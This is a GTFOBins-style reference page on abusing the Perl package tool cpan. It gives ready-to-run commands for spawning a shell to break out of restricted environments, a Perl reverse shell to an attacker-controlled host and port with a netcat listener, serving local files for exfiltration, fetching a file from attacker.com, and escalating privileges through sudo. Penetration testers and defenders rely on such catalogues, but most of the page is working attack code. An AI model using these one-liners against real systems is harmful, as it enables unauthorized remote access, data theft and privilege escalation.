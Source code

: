 # GTFOBin: cpan

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

`cpan` lets you execute perl commands with the `! command`.

```
cpan
! exec '/bin/bash'
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `nc -lvp RPORT` on the attacker box to receive the shell.

```
export RHOST=localhost
export RPORT=9000
cpan
! use Socket; my $i="$ENV{RHOST}"; my $p=$ENV{RPORT}; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};
```

## File upload

It can exfiltrate files on the network.

Serve files in the local folder running an HTTP server on port 8080. Install the dependency via `cpan HTTP::Server::Simple`.

```
cpan
! use HTTP::Server::Simple; my $server= HTTP::Server::Simple->new(); $server->run();
```

## File download

It can download remote files.

Fetch a remote file via an HTTP GET request and store it in `PWD`.

```
export URL=http://attacker.com/file_to_get
cpan
! use File::Fetch; my $file = (File::Fetch->new(uri => "$ENV{URL}"))->fetch();
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo cpan
! exec '/bin/bash'
```
